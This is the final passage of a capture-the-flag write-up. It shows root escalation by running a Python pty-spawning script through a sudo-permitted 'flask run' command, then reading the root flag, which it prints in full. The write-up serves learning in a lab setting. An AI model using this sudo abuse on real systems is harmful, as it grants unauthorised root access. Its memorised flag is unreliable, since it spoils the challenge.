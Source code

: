 We can write a simple python code, same as the one we used to spawn a TTY shell, and execute it with sudo, which spawns us a root shell:

~~~
prof@haskhell:~$ cat > rshell.py << EOF
> #!/usr/bin/env python3
> import pty
> pty.spawn('/bin/bash')
> EOF
prof@haskhell:~$ export FLASK_APP=rshell.py
prof@haskhell:~$ sudo /usr/bin/flask run
root@haskhell:~# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now that we have root access, we can head to `/root` and read the root flag:

~~~
root@haskhell:~# cd /root
root@haskhell:/root# ls
root.txt
root@haskhell:/root# cat root.txt
flag{im_purely_functional}
~~~

root.txt: `flag{im_purely_functional}`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )
